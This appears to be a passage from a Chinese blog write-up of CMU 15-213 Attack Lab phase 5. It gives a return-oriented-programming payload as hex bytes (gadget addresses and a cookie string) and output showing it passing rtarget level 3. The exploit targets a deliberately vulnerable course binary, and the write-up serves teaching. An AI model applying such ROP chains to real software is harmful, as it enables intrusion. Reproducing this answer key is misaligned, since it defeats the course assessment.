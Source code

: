 ![phase 5 的栈帧结构](https://blog.kkkstra.cn/usr/uploads/2023/08/2578476909.png)

所求字符串为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
00
```

运行结果：

```sh
$ ./hex2raw < phase5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

